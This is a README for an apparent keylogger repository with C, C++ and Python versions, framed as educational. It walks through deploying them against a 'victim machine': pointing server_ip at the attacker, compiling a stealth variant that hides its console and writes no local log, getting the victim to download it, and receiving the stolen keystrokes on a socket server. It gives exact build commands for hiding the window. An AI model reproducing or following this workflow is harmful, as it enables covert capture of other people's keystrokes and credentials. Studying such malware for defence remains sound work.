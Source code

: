 # Basic-Keyloggers

## Overview
This repo showcases basic keyloggers written in different languages. Though keyloggers can be used for nasty purposes, this repo should only serve for educational purposes.

The keyloggers in this project come in three different versions: C, C++, and Python. C and C++ because they are the languages most commonly used for malware, and Python because it's the easiest one to understand and learn from. 

Note that the C/C++ versions being used in this repo are for Windows, not MacOS or Linux.

## How it works
1. Make sure your attacking machine and victim machine can communicate with each other via sockets (see [Prerequisites and Preliminaries](#section-1)).
2. Choose the keylogger you want to use, change its `server_ip` to the IP address of your attacking machine, compile it, and have your victim machine download it.
3. Run the Python server code on your attacker machine.
4. Run the compiled keylogger on your victim machine.
5. See the magic happen.

## Keylogger Kinds

If you check each of the files in this repo, you'll notice that each version has three different kinds: `basic_keylogger`, `socket_keylogger`, and `actual_keylogger`. There are also different socket servers. Here are their differences:
### Keyloggers
* `basic_keylogger` - A very basic proof of concept for a keylogger. It simply logs whatever button you press on your keyboard, and stores them in a text file called `keys.txt`.
* `socket_keylogger` - A keylogger that already uses sockets to send the keystrokes to a server hosted on the attacker's machine. For debugging purposes, `socket_keylogger` also outputs its own `keys.txt` file which contains all of the logged keystrokes.
* `actual_keylogger` - The closest I could ever get to an actual keylogger used in attacks. If compiled successfuly, it will not show itself on the terminal; rather, it will only run in the background. It won't output its own `keys.txt` file for the sake of stealthiness, and it will immediately send the keystrokes to the attacker's machine without any output for the victim user to see.
### Socket Servers
These that the servers that are run on the attacker's machine. They use sockets to receive the keystrokes from the keyloggers on the victim's computer, and automatically writes those keystrokes down on a `.txt` file named after the victim's IP address and port.
* `socket_server_test.py` - This is a very basic (and inefficient) server code used to test if your keyloggers can really communicate with your server. It can only accept one connection at a time. Good for testing and debugging, very bad for actual hacking.
* `socket_server.py` - The closest I could ever get to an actual keylogging server used for attacks like this. It does everything that `socket_server_test.py` does, except it has improved error handling, it's more optimized, and it can handle connections coming from multiple keyloggers at once. 


## Important commands:

To compile the C/C++ code, use the following commands (you can change `.c` with `.cpp`, depending on which file you are compiling):

* For the basic keyloggers: `g++ -o <output_filename>.exe basic_keylogger.c`
* For the socket keyloggers: `g++ -o <output_filename>.exe socket_keylogger.c -lws2_32`
* For the actual keyloggers: `g++ -o <output_filename>.exe actual_keylogger.cpp -lws2_32 -mwindows`

To compile the Python keylogger, a different command is needed. Make sure you've installed `pyinstaller` using the command `pip install pyinstaller`.
* For the actual keylogger: `pyinstaller --noconsole --onefile --name <output_file_name> actual_keylogger.py`. The .exe file will then be found in the `/dist` folder that gets created.

<br/>

# <a name="section-1"></a> Prerequsites and Preliminaries


To make sure that your keyloggers would work when you compile them, follow these prerequisites and preliminary tests. They are used to make sure that your machine can compile the codes and that the codes are capable of socket communication.

## For C/C++ Keyloggers
1. Make sure Python 3 is installed in your machine.
2. Make sure the environment for C/C++ development is already set up on your machine. The C/C++ code in this repo is build for Windows machines, so if that's the OS you are using, follow the guide [here](https://code.visualstudio.com/docs/cpp/config-mingw?fbclid=IwY2xjawG6AfdleHRuA2FlbQIxMAABHSO4WPA2xtDaTKrFsBsA-wPPEC2UcH2cfyFbi2WN0b8scKeCweYNZqBKvw_aem_VmqdFcg02qeJubMOo6dONQ).
3. Navigate to the `/scratch_files` directory and compile whichever socket client you want to test. For the C client, use the command `g++ socket_client.c -o <output_file_name>.exe  -lws2_32`. Similarly, for the C++ client, use the command `g++ socket_client.cpp -o <output_file_name>.exe  -lws2_32`.
4. Open a terminal and run `socket_server_test.py`. You should be greeted by this output:
```
PS C:\Path\To\Basic-Keyloggers> python3 socket_server_test.py

Socket created.
Socket binded to  8080
Socket is listening...
```
5. Once you see the output above, open a different terminal and run the socket client you just compiled. For example, if you compiled the C++ socket client, your terminal should look like this:
```
PS C:\Path\To\Basic-Keyloggers\scratch_files> g++ socket_client.cpp -o socket_client.exe  -lws2_32
PS C:\Path\To\Basic-Keyloggers\scratch_files> ./socket_client.exe
Sending hello message from the C++ client to the server... 
Hello message sent.
Client socket closed.
```
After running that code, check the terminal where you run the `socket_server_test.py`. It should have this output:
```
PS C:\Path\To\Basic-Keyloggers> python3 socket_server_test.py

Socket created.
Socket binded to  8080
Socket is listening...
Got connection from  ('127.0.0.1', 54922)
Hello from my cpp client!
Client must have disconnected.

Socket created.
Socket binded to  8080
Socket is listening...
```
Of course, the examples shown above are only if you are running both the socket client and socket server in the same machine, hence the IP 127.0.0.1. If you want to try socket communication over two different machines, (like running the server in one laptop and running the client in another), just change the `server_ip` variable in `socket_client.c` or `socket_client.cpp` to the IP address of the computer you are hosting your sever in.
```
const char* server_ip = "127.0.0.1"; // change this to your server machine's IP address if you are trying to test sockets across separate machines.
```

If you get the results shown above, then your C/C++ keyloggers should work once compiled.

[comment]: <> (talk about prerequisites next, such as making sure both machines can ping each other, testing the socket scratch files and verifying that socket communications work, attacking your own machine first, and then attacking another machine.)

## For Python Keylogger
1. Make sure Python and pip are both installed in your machine.
2. Install the libraries `keyboard` and `pyinstaller` on your machine. Run these commands:
```
pip install keyboard
pip install pyinstaller
```
3. Open a terminal and run `socket_server_test.py`. You should be greeted by this output:
```
PS C:\Path\To\Basic-Keyloggers> python3 socket_server_test.py

Socket created.
Socket binded to  8080
Socket is listening...
```
4. On a separate terminal, navigate to the `/scratch_files` directory and run `socket_client.py`. This terminal should look like this:
```
PS C:\Path\To\Basic-Keyloggers\scratch_files> python3 socket_client.py
Sending hello message from Python client to server...
Hello sent to server.
```
Check the terminal where the socket server was being run. It should have this output:
```
PS C:\Path\To\Basic-Keyloggers> python3 socket_server_test.py

Socket created.
Socket binded to  8080
Socket is listening...
Got connection from  ('127.0.0.1', 54922)
Hello from my python client!
Client must have disconnected.

Socket created.
Socket binded to  8080
Socket is listening...
```
If you got the above results, then your Python keyloggers should work just fine.